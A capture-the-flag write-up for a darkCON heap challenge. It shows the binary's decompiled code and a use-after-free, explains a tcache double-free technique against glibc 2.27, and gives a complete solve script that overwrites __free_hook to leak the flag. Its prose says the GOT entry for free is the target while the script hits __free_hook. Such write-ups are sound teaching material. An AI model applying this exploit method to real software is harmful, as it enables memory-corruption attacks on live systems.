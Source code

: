 # Pwn/Warmup [482]

warm up yourself and get the flag!

Connection: nc 65.1.92.179 49155

**Files**: [warmup1.zip](https://darkc0n.blob.core.windows.net/challenges/warmup1.zip) (`libc.so.6`, `a.out`)

```sh
$ ./libc-database/identify libc.so.6
libc6_2.27-3ubuntu1.2_amd64
$ checksec a.out
[*] '/a.out'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

## Solving

The challenge is a basic heap-based CLI, with the flag stored at `notes[0]`:

```c
unsigned int initstuff() {
  setvbuf(stdin, 0, 2, 0);
  setvbuf(stdout, 0, 2, 0);
  setvbuf(stderr, 0, 2, 0);
  return alarm(0x20);
}
int show_options() {
  puts("[1] - create");
  puts("[2] - delete");
  return puts("[3] - exit");
}

char *notes[16]; // .bss:00000000006020C0
int main() {
  initstuff();
  notes[0] = malloc(0x10);
  strcpy(notes[0], "darkCON{XXXXXXX}"); // note that this is embedded as mov instructions
  printf("Hello traveller! Here is a gift: %p\n", &strcpy);
  while ( 1 ) {
    int opt; // [rsp+4h] [rbp-Ch] BYREF
    show_options();
    __isoc99_scanf("%d", &opt);
    fgetc(stdin);
    switch (opt) {
      case 1:
        create(); break;
      case 2:
        delete(); break;
      case 3:
        exit(0); break;
      default:
        return 0;
    }
  }
}
```

The challenge provides a libc leak via "`strcpy`" -- the value of this leak doesn't actually match `libc.symbols['strcpy']`, so I found it manually with gdb:

```python
__strcpy_sse2_unaligned = 0xb65b0 #gdb.attach(r, gdbscript='x/g 0x601FE8\nvmmap libc')
```

In the main loop, there are only two options: `create()`, and `delete()`. 

```c
unsigned getindex() {
  int ind; // [rsp+4h] [rbp-Ch] BYREF
  printf("index: ");
  __isoc99_scanf("%d", &ind);
  fgetc(stdin);
  if ( ind > 15 || ind < 0 )
    exit(0);
  return (unsigned)ind;
}
int sizes[16]; // .bss:0000000000602140
void create() {
  char s[72]; // [rsp+10h] [rbp-50h] BYREF
  int ind = getindex(); // [rsp+Ch] [rbp-54h]
  printf("size: ");
  __isoc99_scanf("%d", &sizes[ind]);
  fgetc(stdin);
  if (sizes[ind] <= 32 && sizes[ind] > 0) {
    printf("input: ");
    fgets(s, sizes[ind], stdin);  // this should be capped at 32 bytes.
    notes[ind] = malloc(sizes[ind]);
    strcpy(notes[ind], s);        // this shouldn't overflow.
  }
}
void delete(){
  int ind = getindex(); // [rsp+Ch] [rbp-4h]
  free(notes[ind]);     // UAF ! notes[] & sizes[] are not cleared.
}
```

The UAF can really only be used to induce a double free: there's no `edit()` like function to make use of an already-freed block.

I get [an idea](https://github.com/shellphish/how2heap/blob/master/glibc_2.23/fastbin_dup_into_stack.c) for leaking `notes[0]` pretty quickly:

1. double-free a note, causing the tcache freelist to become [1 -> 2 -> 1]. This works because we're in libc 2.27.
2. Use the first allocation of [1] to overwrite its `->fd` pointer to `GOT.free()`.
3. Allocate twice to let the GOT pointer reach the head of the tcache
4. Allocate && overwrite `GOT.free()` with `puts()`
5. free [0] to get flag

That works:

```
[*] Switching to interactive mode
darkCON{shrtflg}
[1] - create
[2] - delete
[3] - exit
$
```

## Solve script

```python
from pwnscripts import *
context.binary = 'a.out'
context.libc_database = 'libc-database'
context.libc = 'libc.so.6' # libc6_2.27-3ubuntu1.2_amd64

r = remote('65.1.92.179', 49155)
#r = context.binary.process()
def create(ind: int, size: int, inp: bytes):
    r.sendlineafter('exit\n', '1')
    r.sendlineafter('index: ', str(ind))
    r.sendlineafter('size: ', str(size))
    if len(inp) < size-1: inp += b'\n'
    r.sendafter('input: ', inp)
def delete(ind: int):
    r.sendlineafter('exit\n', '2')
    r.sendlineafter('index: ', str(ind))

__strcpy_sse2_unaligned = 0xb65b0 # ???
context.libc.address = unpack_hex(r.recvline())-__strcpy_sse2_unaligned
create(1, 8, b'one')
create(2, 8, b'two')
delete(1)
delete(2)
delete(1)
create(1, 8, pack(context.libc.symbols['__free_hook'])[:7])
create(2, 8, b'two')
create(1, 8, b'one')
create(1, 8, pack(context.libc.symbols['puts'])[:7])
delete(0)
r.interactive()
```

